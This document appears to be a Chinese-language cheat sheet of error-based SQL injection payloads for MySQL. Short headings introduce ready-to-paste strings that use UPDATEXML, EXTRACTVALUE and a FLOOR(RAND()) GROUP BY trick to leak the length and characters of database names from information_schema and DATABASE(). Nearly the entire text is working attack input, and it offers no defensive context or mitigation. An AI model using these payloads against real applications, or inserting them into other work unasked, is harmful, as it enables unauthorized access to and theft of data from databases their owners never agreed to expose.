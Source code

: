 显示第一个数据库名的字节长度

```
' OR UPDATEXML(1, CONCAT(0x7e, (SELECT LENGTH(schema_name) FROM information_schema.SCHEMATA LIMIT 0, 1), 0x7e), 0) OR '
```

```
' OR EXTRACTVALUE(1, CONCAT(0x7e, (SELECT LENGTH(schema_name) FROM information_schema.SCHEMATA LIMIT 0, 1), 0x7e)) OR '
```

```
' OR (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x7e, (SELECT LENGTH(schema_name) FROM information_schema.SCHEMATA LIMIT 0, 1), 0x7e, FLOOR(RAND(0)*2)) AS a FROM information_schema.TABLES GROUP BY a) AS b)-- 
```

显示第一个数据库名的第一个字符

```
' OR UPDATEXML(1, CONCAT(0x7e, (SUBSTR((SELECT schema_name FROM information_schema.SCHEMATA LIMIT 0, 1), 1, 1)), 0x7e), 0) OR '
```

```
' OR EXTRACTVALUE(1, CONCAT(0x7e, (SUBSTR((SELECT schema_name FROM information_schema.SCHEMATA LIMIT 0, 1), 1, 1)), 0x7e)) OR '
```

```
' OR (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x7e, (SUBSTR((SELECT schema_name FROM information_schema.SCHEMATA LIMIT 0, 1), 1, 1)), 0x7e, FLOOR(RAND(0)*2)) AS a FROM information_schema.TABLES GROUP BY a) AS b)-- 
```

显示当前数据库名的字节长度

```
' OR UPDATEXML(1, CONCAT(0x7e, LENGTH(DATABASE()), 0x7e), 0) OR '
```

```
' OR EXTRACTVALUE(1, CONCAT(0x7e, LENGTH(DATABASE()), 0x7e)) OR '
```

```
' OR (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x7e, LENGTH(DATABASE()), 0x7e, FLOOR(RAND(0)*2)) AS a FROM information_schema.TABLES GROUP BY a) AS b)-- 
```

显示当前数据库名的第一个字符

```
' OR UPDATEXML(1, CONCAT(0x7e, SUBSTR(DATABASE(), 1, 1), 0x7e), 0) OR '
```

```
' OR EXTRACTVALUE(1, CONCAT(0x7e, SUBSTR(DATABASE(), 1, 1), 0x7e)) OR '
```

```
' OR (SELECT 1 FROM (SELECT COUNT(*), CONCAT(0x7e, SUBSTR(DATABASE(), 1, 1), 0x7e, FLOOR(RAND(0)*2)) AS a FROM information_schema.TABLES GROUP BY a) AS b)-- 
```
